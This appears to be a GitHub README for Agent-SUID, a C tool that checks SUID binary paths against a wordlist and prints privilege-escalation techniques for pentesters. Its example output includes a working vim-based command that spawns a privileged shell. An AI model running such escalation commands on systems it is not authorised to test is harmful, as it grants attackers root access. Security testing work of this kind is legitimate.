 # Agent-SUID vC1.0

Agent-SUID is a C program script developed by **CyberGhoul** to assist security professionals in identifying potential privilege escalation vectors by discovering exploitable SUID binaries on a system. This tool allows users to input SUID binary paths and checks for matches against a predefined wordlist of SUID binaries to determine if the SUID binary is exploitable or not.

## Features
- **User Input:** Enter SUID binary paths one per line to check for exploitable SUID binaries.
- **Wordlist Matching:** Matches the base name of the input paths against a predefined wordlist.
- **Privilege Escalation Techniques:** Displays detailed information on potential privilege escalation techniques for matched binaries.
- **Installation & Uninstallation:** Easily install or uninstall the script to `/usr/local/bin` with superuser permissions.

## Installation

To install the script on your system:

```bash
make
sudo make install  
```
This will copy the script to `/usr/local/bin`, making it accessible from anywhere in your terminal.

## Usage

To run the script, use the following command:

```
agent-suid
```
Once running, you can input paths to be checked. Press Enter on an empty line to finish inputting paths.


## Example

```
$ agent-suid

Agent-SUID vC1.0 by CyberGhoul - the ultimate tool for discovering exploitable SUID binaries on your system. This tool is designed to help security professionals identify potential privilege escalation vectors.
        
Enter paths one per line (press Enter on an empty line to finish):

/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passw
/bin/vim


Exploitable SUID Binaries Overview: 1 found
Details on privilege escalation techniques:

-------------------------------------------------
vim:
        sudo install -m =xs $(which vim) .
        ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
        
-------------------------------------------------
```
## Uninstallation
To uninstall the script from your system :
```
sudo make uninstall
```

## Requirements

- Superuser permissions (for installation/uninstallation)

## License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/cyb3rgh0u1/Agent-SUID/blob/main/LICENSE) file for details.

